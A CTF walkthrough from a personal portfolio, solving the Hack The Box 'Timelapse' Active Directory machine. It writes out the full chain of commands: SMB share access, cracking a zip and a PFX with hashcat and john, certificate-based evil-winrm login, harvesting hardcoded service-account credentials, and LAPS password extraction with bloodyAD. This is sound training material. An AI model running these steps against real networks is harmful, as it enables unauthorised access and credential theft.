

CTF Walkthrough's
---

<a href="http://www.linkedin.com/in/daemon-adams">LinkedIn</a>


Welcome to my GitHub portfolio
Here, I document my journey through HTB CTFs, TryHackMe challenges, demonstrating my skills in offensive security. 
This space serves as both a showcase of my technical capabilities and a reflection of my commitment to continuous learning in the cybersecurity field.

# HTB Timnelapse
  Completed: 11/16/25
  
  Analyst: Dae'mon Adams

**Tools used**:
  - nmap
  - netexec
  - smbclient
  - zip2john & pf2john
  - 7z
  - Hashcat
  - openssl
  - evil-winrm
  - bloodyAD
  
---


## Initial Enumeration
I used a initial Nmap scan to map the targets open ports as well as it's exposed services to identify any potential misconfigurations that could be chianed later on in the attack. The results from the scan below can confirm that this machine is a domain-joined machine,
and If you look at the Host script results this machine has a clock screw, meaning it is best to match the time to the machine using the tool **ntpdate** towards the domain.

```Bash
sudo nmap -p- -Pn $target -v --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn $target -sV -sC -v -oN nmap_sV.txt && sleep 5 && nmap -T5 -Pn $target -v --script vuln -oN nmap_vuln.txt
```

```Bash
sudo ntpdate timelapse.htb
```

## SMB Enumeration
The Nmap scan indicateds the machines SMB server has guest access, i confirmed this using the tool **netexec**. Now that i am sure i can acccess the shares guest account i can now enumerate for any available share names by using **smbclient**

```Bash
nxc smb $target -u 'admin' -p 'admin'
```

### Accessing the Share Directory
The list of availabe shares has a specific share named "Shares" that has two folders named "Dev" containinf a password protected zip file named `winrm_backup`and "HelpDesk" which has LAPS msi files and other docx files supporting creating new local admin passwords, i choose to download the backup zipfile to crack on my attack host.

```Bash
smbclient -N -L //$target -U 'guest'
```
## Credential Extraction from a Zip file
Since i found this zip file in a "Dev" folder i can assume some type of credentials can be held within this file, i decided to use the tool **7z** to inspect the archive to enumerate it's contents and came to find a `.pfx` (`legacyy_dev_auth.pfx`) file to a legacy user

```Bash
7z l winrm_backup.zip
```
### Cracking the ZIP Password
Now that i can confirm that this file houses credentials, i used zip2john to convert the file into a hash file named `winrm_creds` and used the tool **hashcat** to recover the password `supremelegacy`.

```Bash
zip2john winrm_backup.zip > winrm_creds

hashcat -m 17200 -a 0 winrm_creds /opt/Tools/SecLists/Passwords/Leaked-Databases/rockyou.txt
```
### Extracting and Cracking the PFX file
Once i used the password to extract the pfx file i used **pfx2john** to extract it into a hash file, i then used john to crack the hash to discover the password of **thuglegacy**

```Bash
pfx2john legacyy_dev_auth.pfx > hash.txt

john hash.txt --wordlist=/opt/Tools/SecLists/Passwords/Leaked-Databases/rockyou.txt
```
## Accessing a WinRM session with SSL Certificates
The inital nmap scan revealed that port `5986/tcp` (WinRM) is configured to require certificate-based authentication, this shifted my focus to validate whether certificate-based impersonation was possible.

### Extracting Certificate Metadata
I first enumerated the Common Name of the user of the credentials and it pulled the user **Legacyy**. I then used the password to the credentials (**thuglegacy**) to create `.pem` files as well as a **rsa key and certificate** to use to log into **evil-winrm** since i cannot log in directly

```Bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out legacyy_dev_auth.pem

openssl x509 -in legacy_dev_auth.pem -noout -subject
```
### Exporting Keys for Evil-WinRM
```Bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key-enc
openssl rsa -in legacyy_dev_auth.key-enc -out legacyy_dev_auth.key
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
```
### WinRM Access as Legacyy
Now that i made the valid ssl credentials i can now authenticate as the user **Legacyy** leading me to get the user.txt file

```Bash
evil-winrm -i timelapse.htb -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt
```

## ACL & Domain Enumeration
After establishing user-level access, i shifted into enumerating the compromised user privileges, ACL misconfiguratiuons, AD groups and object permissions. I wanted to determine how far the compromised user ccould pivot inside the domain.

### Group Rights Review
This user is apart of a group called Development, i enumerated the ACL permissions of the group and discovered this user has **GenericAll** permissions

```Bash
whoami /all

Get-DomainObjectAcl -Identity "S-1-5-21-671920749-559770252-3318990721-3101" -ResolveGUID
```

## Privilege Escalation via svc_deploy
I uploaded a copy of the powershell script **winPEAS** to accelerate enumeration this tool helps enumerate privilege escalation vectors, registry misconfigurations, stored credentials, and environment weaknesses. WinPEAS revealed harcoded credentials for a service account named `svc_deploy` and the password 'E3R$Q62^12p7PLlC%KWaxuaV'.

```Bash
upload /home/Dae/Documents/HTB/CTFs/Timelapse/winPEAS.ps1
Import-Module .\winPEAS.ps1
```

### Verifying Credentials with NetExec
Service accounts often provide indirect privilege paths due to delegated permissions, automation tasks, or outdated access control. This would later prove critical for domain escalation.

```Bash
nxc winrm $target -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'
```

## LAPS Abuse for Domain Admin
Because i already identified LAPS documentation earlier in the engagement, i supected LAPS would play a role so i used **netexec's** bloodhound module to pull the information of the domain. Using bloodhound i confirmed the service account `svc_deploy` has LAPS read permissions, with this confirmed i leveraged the permissions using **bloodyAD** to extract the LAPS password to return the local Administrator password for `DC01`.

```Bash
netexec ldap timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' --bloodhound --collection All --dns-server $target

bloodyAD --host $target -d timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime
```

## Domain Admin Access 
Once i received the password i logged in as the administrator using evil-winrm, the root flag was not located in the Administrator directory so i enumerated the other users i have yet to compromise and found it in the user **TRX's** Desktop folder.

```Bash
evil-winrm -i DC01.timelapse.htb -u Administrator -p 'a;o2/Z+RC1E;jJj.KA2kYRQ0' -S
```


